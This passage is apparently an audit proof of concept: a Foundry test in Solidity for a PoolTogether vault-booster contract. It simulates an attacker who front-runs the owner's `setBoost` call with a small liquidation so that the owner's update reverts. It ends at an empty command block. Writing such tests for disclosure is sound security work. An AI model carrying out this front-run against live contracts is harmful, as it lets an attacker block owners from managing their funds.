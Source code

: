 ```solidity
      lastClosedDrawStartedAt,
      initialNumberOfTiers,
      100,
      10,
      10,
      ud2x18(0.9e18),
      sd1x18(0.9e18)
    );
    prizePool = new PrizePool(params);

    //Vault Booster
    booster = new VaultBooster(prizePool, vault, address(this));

    //Liquidation Pair
    source = ILiquidationSource(address(booster));
    liquidationPair = new LiquidationPair(
      source,
      address(prizeToken),
      address(boostToken),
      periodLength,
      periodOffset,
      targetFirstSaleTime,
      decayConstant,
      initialAmountIn,
      initialAmountIn,
      minimumAuctionAmount
    );
  }

  function testFrontRun() public {
    vm.warp(0);

    //Minting 1e18 Boost Tokens to the Booster
    boostToken.mint(address(booster), 1e18);

    //Setting up the Booster to allow liquidation for Boost Token
    booster.setBoost(boostToken, address(liquidationPair), UD2x18.wrap(0.001e18), 0.03e18, 1e18);

    //Ensuring VaultBooster is properly configured
    Boost memory boost = booster.getBoost(boostToken);
    assertEq(boost.available, 1e18);

    vm.warp(10);

    //Now the Vault Booster's owner decides to update the boost values by calling `setBoost`
    //But attacker front-runs it by doing the following two steps in a single transaction

    //1. Attacker sends 100 wei Prize Tokens to Prize Pool
    prizeToken.mint(address(prizePool), 100);
    //2. Attacker calls the liquidation Pair to liquidate 100 wei of Boost Tokens for 100 wei of Prize Tokens in Vault Booster
    vm.prank(address(liquidationPair));
    booster.liquidate(address(this), address(prizeToken), 100, address(boostToken), 100);

    //The transcation to update the boost will revert as `_initialAvailable < balance` due to liquidation of tokens
    vm.expectRevert();
    booster.setBoost(boostToken, address(liquidationPair), UD2x18.wrap(0.002e18), 0.03e18, 1e18);
  }
}
```
- Run the following command in `/2023-08-pooltogether/pt-v5-vault-boost/`:
```bash
```